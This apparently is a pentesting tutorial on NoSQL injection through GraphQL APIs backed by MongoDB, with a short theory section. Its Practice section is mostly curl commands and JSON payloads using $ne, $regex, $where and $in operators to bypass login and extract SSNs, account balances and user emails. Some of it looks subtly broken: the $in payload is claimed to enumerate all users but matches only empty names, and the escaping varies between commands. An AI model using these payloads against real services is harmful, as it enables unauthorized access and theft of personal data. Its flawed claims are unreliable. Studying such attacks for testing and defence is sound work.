

# NoSQL Injection

## Context

NoSQL injection allows attackers to manipulate NoSQL queries through unsanitized user input in GraphQL APIs, particularly those backed by MongoDB. This technique exploits input validation weaknesses to inject NoSQL operators and access sensitive data or bypass authentication. This article assumes familiarity with NoSQL databases, GraphQL queries, MongoDB’s query language, and prior knowledge of GraphQL injection techniques.

## Theory

### NoSQL Injection Fundamentals in GraphQL Context

NoSQL injection involves the manipulation of NoSQL queries by exploiting input fields that dynamically construct these queries. In the context of GraphQL applications, the resolvers responsible for executing queries may directly incorporate user-provided data into NoSQL queries without proper validation. This vulnerability model relies on input that the server does not properly sanitize or validate, allowing attackers to inject operators like `$ne`, `$regex`, or `$where`, which substantially alter the intended query behavior.

### MongoDB Operator Injection Techniques

MongoDB supports various operators which, when not properly handled, can be used to subvert application logic. Operators such as `$ne` (not equal), `$in` (in array), `$regex` (pattern matching), and `$where` (JavaScript execution) come into play. An attack typically involves injecting these operators as values in input fields to bypass authentication checks or extract sensitive data. For example, injecting `$ne:null` could subvert standard equality logic checks, facilitating unauthorized access or data retrieval.

### NoSQL Injection via GraphQL APIs

In a GraphQL context, attackers craft queries with malicious input that, through the resolver, manipulates backend NoSQL queries. The data flow of such an attack is straightforward: user input moves to the GraphQL API, through the resolver, and down to the MongoDB, which then returns data back through the same pathway to the user. A successful injection manipulates this flow to unfairly access or alter data.



## Practice

### Authentication Bypass via $ne Operator Injection

- **Payload:** Inject the following into form fields to bypass authentication checks by subverting expected equality logic with `$ne`.
  ```json
  {
      "username": {"$ne": null},
      "password": {"$ne": null}
  }
  ```

- **Command Line:**
  ```bash
  curl -X POST http://target/graphql -H 'Content-Type: application/json' \
  --data '{"query": "query { login(username: \"{\"\$ne\":null}\", password: \"{\"\$ne\":null}\") { token } }"}'
  ```

- **Outcome:** This action will enable access without valid credentials by making the check always true, thereby bypassing authentication logic.

### Sensitive Data Extraction via $regex Injection

- **Payload:** Use this payload to extract data like SSNs by matching all possible entries with a $regex pattern.
  ```json
  {
      "ssn": {"$regex": ".*"}
  }
  ```

- **Command Line:**
  ```bash
  curl -X POST http://target/graphql -H 'Content-Type: application/json' \
  --data '{"query": "query { patients(filter: { ssn: \"{\\\"$regex\\\":\\\".*\\\"}\" }) { name ssn } }"}'
  ```

- **Outcome:** Gain access to extract sensitive patient SSNs, matching any entry and circumventing intended filters.

### Arbitrary Query Manipulation via $where Injection

- **Payload:** Filter records by injecting JavaScript logic with the $where operator to selectively extract information based on conditions like balance.
  ```json
  {
      "$where": "this.balance > 10000"
  }
  ```

- **Command Line:**
  ```bash
  curl -X POST http://target/graphql -H 'Content-Type: application/json' \
  --data '{"query": "query { accounts(filter: \"{\\\"$where\\\":\\\"this.balance > 10000\\\"}\") { owner balance } }"}'
  ```

- **Outcome:** Access restricted financial data by executing JavaScript logic within MongoDB, targeting records with high balances.

### Bulk Data Access via $in Operator Injection

- **Payload:** Use the $in operator to match multiple usernames, fetching bulk data.
  ```json
  {
      "username": {"$in": [""]}
  }
  ```

- **Command Line:**
  ```bash
  curl -X POST http://target/graphql -H 'Content-Type: application/json' \
  --data '{"query": "query { users(filter: { username: \"{\\\"$in\\\":[\\\"\\\"]}\" }) { username email } }"}'
  ```

- **Outcome:** Enumerate all user accounts by exploiting the username filter, accessing extensive sensitive data lists.

## Tools

- **curl**
- **Burp Suite**
- **Postman** 

Each of these tools facilitates interaction and testing against web services, enabling the crafting and dispatch of GraphQL queries to exploit NoSQL injection vulnerabilities effectively.